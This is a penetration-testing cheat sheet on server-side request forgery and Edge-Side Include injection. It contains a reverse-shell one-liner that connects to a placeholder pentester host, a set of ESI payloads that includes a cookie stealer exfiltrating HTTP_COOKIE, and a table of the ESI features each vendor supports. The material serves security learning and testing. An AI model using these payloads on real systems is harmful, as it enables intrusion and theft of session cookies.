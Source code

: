 # SSRF

[Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)

[PortSwigger](https://portswigger.net/web-security/ssrf)

Server-Side Request Forgery (`SSRF`) attacks, listed in the OWASP top 10, allow us to abuse server functionality to perform internal or external resource requests on behalf of the server. To do that, we usually need to supply or modify URLs used by the target application to read or submit data. Exploiting SSRF vulnerabilities can lead to:

* Interacting with known internal systems
* Discovering internal services via port scans
* Disclosing local/sensitive data
* Including files in the target application
* Leaking NetNTLM hashes using UNC Paths (Windows)
* Achieving remote code execution

```
#Reverse shell
<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->
```

## **Edge-Side Includes (ESI) Injection**

Edge Side Includes (`ESI`) is an XML-based markup language used to tackle performance issues by enabling heavy caching of Web content, which would be otherwise unstorable through traditional caching protocols. Edge Side Includes (ESI) allow for dynamic web content assembly at the edge of the network (Content Delivery Network, User's Browser, or Reverse Proxy) by instructing the page processor what needs to be done to complete page assembly through ESI element tags (XML tags).

ESI tags are used to instruct an HTTP surrogate (reverse-proxy, caching server, etc.) to fetch additional information regarding a web page with an already cached template. This information may come from another server before rendering the web page to the end-user. ESI enable fully cached web pages to include dynamic content.

Edge-Side Include Injection occurs when an attacker manages to reflect malicious ESI tags in the HTTP Response. The root cause of this vulnerability is that HTTP surrogates cannot validate the ESI tag origin. They will gladly parse and evaluate legitimate ESI tags by the upstream server and malicious ESI tags by an attacker.

```html
// Basic detection
<esi: include src=http://<PENTESTER IP>>

// XSS Exploitation Example
<esi: include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>>

// Cookie Stealer (bypass httpOnly flag)
<esi: include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
```

Although we can identify the use of ESI by inspecting response headers in search for `Surrogate-Control: content="ESI/1.0"`, we usually need to use a blind attack approach to detect if ESI is in use or not.

[GoSecure](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/) has created a table to help us understand possible attacks that we can try against different ESI-capable software**.**

* Includes: Supports the `<esi:includes>` directive
* Vars: Supports the `<esi:vars>` directive. Useful for bypassing XSS Filters
* Cookie: Document cookies are accessible to the ESI engine
* Upstream Headers Required: Surrogate applications will not process ESI statements unless the upstream application provides the headers
* Host Allowlist: In this case, ESI includes are only possible from allowed server hosts, making SSRF, for example, only possible against those hosts

|         **Software**         | **Includes** | **Vars** | **Cookies** | **Upstream Headers Required** | **Host Whitelist** |
| :--------------------------: | :----------: | :------: | :---------: | :---------------------------: | :----------------: |
|            Squid3            |      Yes     |    Yes   |     Yes     |              Yes              |         No         |
|         Varnish Cache        |      Yes     |    No    |      No     |              Yes              |         Yes        |
|            Fastly            |      Yes     |    No    |      No     |               No              |         Yes        |
| Akamai ESI Test Server (ETS) |      Yes     |    Yes   |     Yes     |               No              |         No         |
|          NodeJS esi          |      Yes     |    Yes   |     Yes     |               No              |         No         |
|         NodeJS nodesi        |      Yes     |    No    |      No     |               No              |      Optional      |
